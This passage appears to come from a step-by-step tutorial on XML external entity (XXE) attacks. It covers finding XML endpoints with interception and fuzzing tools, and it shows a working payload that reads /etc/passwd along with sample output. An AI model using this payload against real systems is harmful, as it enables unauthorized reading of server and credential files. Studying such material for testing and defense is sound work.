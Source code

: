 ### Step 1: Identifying Vulnerable XML Endpoints
Begin by mapping the application's attack surface to find endpoints that accept and parse XML. Use tools like **Burp Suite**, **ZAP**, or **Postman** to intercept and analyze HTTP requests. Look for:
- Content-Type headers set to `application/xml` or `text/xml`.
- Endpoints handling SOAP, REST with XML payloads, or file uploads (e.g., SVG, DOCX which contain XML).
- Form submissions or API calls with XML-structured bodies.

In this case, a **POST request** to `/api/endpoint` was captured:

```http
POST /api/endpoint HTTP/1.1
Host: target.site
Content-Type: application/xml
Content-Length: 180

<?xml version="1.0" encoding="UTF-8"?>
<submission>
  <source>user@external.com</source>
  <target>admin@internal.com</target>
  <body>Standard submission content.</body>
</submission>
```

To automate discovery, use fuzzing tools like wfuzz or ffuf with XML payloads. Additionally, review source code if available (e.g., via leaked repositories) or check for known vulnerable libraries in the application's stack.

### Step 2: Testing for Basic XXE Vulnerability
Inject a test payload to see if external entities are resolved. Target readable system files like `/etc/passwd` on Linux or `C:\Windows\win.ini` on Windows for proof-of-concept:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE submission [
  <!ENTITY test SYSTEM "file:///etc/passwd">
]>
<submission>
  <source>&test;</source>
  <target>admin@internal.com</target>
</submission>
```

If the response includes:

```plaintext
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
...
```

This confirms the vulnerability. The parser is expanding the entity and including the file content in the response. Note variations:
- On Windows: Use `file:///C:/Windows/win.ini` for testing.
- Error messages might reveal partial content if direct echo is suppressed.
